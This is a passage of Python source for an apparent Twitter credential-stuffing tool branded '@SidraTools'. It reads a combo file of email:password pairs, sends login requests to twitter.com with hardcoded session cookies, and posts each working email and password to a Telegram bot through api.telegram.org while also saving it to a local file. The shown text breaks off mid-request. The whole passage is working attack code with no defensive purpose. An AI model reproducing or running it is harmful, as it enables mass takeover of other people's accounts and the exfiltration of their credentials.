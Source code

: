 					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(Sidraok))
					f=open('Ok.txt','a')
					f.write(Sidraok)
					f.close()
				else:
					os.system('clear')
					print(Tk)
					cp+=1
					print(A+"("+E+user+A+")"+H+" : "+A+"("+E+pw+A+")")
					print(A+"-----------------------------------")
					print("{}({}-{}){}  Test {} : {}30000".format(A,H,A,B,A,H))
					print("{}({}-{}){}  Good {} : {}{}".format(A,E,A,E,A,E,str(ok)))
					print("{}({}-{}){}  Baad {} : {}{}".format(A,K,A,K,A,K,str(cp)))
					print(A+"-----------------------------------")
					print(H+"Telegram  "+A+" : "+E+"@SidraTools")
			except requests.exceptions.ConnectionError:
				print()
				
			except KeyboardInterrupt:
				exit(0)
	elif SidraELEzz=="2":
		os.system('clear')
		import time
		try:
			print(Tk)
			fil= input(A+"("+E+"⌯"+A+")"+H+ " Enter the file Combo :"+C)
		except:
			print("\n Error !!!!!!!!!")
			os.sys.exit()
		file=open(fil,"r").read().splitlines()
		for line in file:
			user=line.split(':')[0]
			pw=line.split(':')[1]
			timee = time.asctime()
			Sidraok = ("👩‍💻➥ • ᴛᴡɪᴛᴛᴇʀ ᴀᴄᴄᴏᴜɴᴛ ✓\n. — — — — —  — — — — — . \n📩 ➥• ᴇᴍᴀɪʟ : "+str(user)+"\n📟 ➥• ᴘᴀѕѕᴡᴏʀᴅ : "+str(pw)+"\n⏱ ➥• ᴛɪᴍᴇ : "+str(timee)+"\n. — — — — —  — — — — — . \n👩‍💻➥• @SidraTools")
			headers={
		    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
		    'Accept-Encoding': 'gzip, deflate, br',
		    'Accept-Language': 'ar,en-US;q=0.7,en;q=0.3',
		    'Content-Length': '901',
		    'Content-Type': 'application/x-www-form-urlencoded',
		    'Cookie': 'personalization_id="v1_aFGvGiam7jnp1ks4ml5SUg=="; guest_id=v1%3A161776685629025416; gt=1379640315083112449; ct0=de4b75112a3f496676a1b2eb0c95ef65; _twitter_sess=BAh7CSIKZmxhc2hJQzonQWN0aW9uQ29udHJvbGxlcjo6Rmxhc2g6OkZsYXNo%250ASGFzaHsABjoKQHVzZWR7ADoPY3JlYXRlZF9hdGwrCIA8a6p4AToMY3NyZl9p%250AZCIlM2RlMDA1MzYyNmJiMGQwYzQ1OGU2MjFhODY5ZGU5N2Y6B2lkIiU4ODM0%250AMjM5OTNlYjg0ZGExNzRiYTEwMWE0M2ZhYTM0Mw%253D%253D--f5b0bce9df3870f1a221ae914e684fbdc533d03d; external_referer=padhuUp37zjgzgv1mFWxJ12Ozwit7owX|0|8e8t2xd8A2w%3D; _mb_tk=10908ac0975311eb868c135992f7d397',
		    'Host': 'twitter.com',
		   'Origin': 'https://twitter.com',
		   'Referer': 'https://twitter.com/login?lang=ar',
		   'TE': 'Trailers',
		   'Upgrade-Insecure-Requests': '1',
		   'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0', }
			data={
		    'redirect_after_login': '/',
		    'remember_me': '1',
		    'authenticity_token': '10908ac0975311eb868c135992f7d397',
		    'wfa': '1',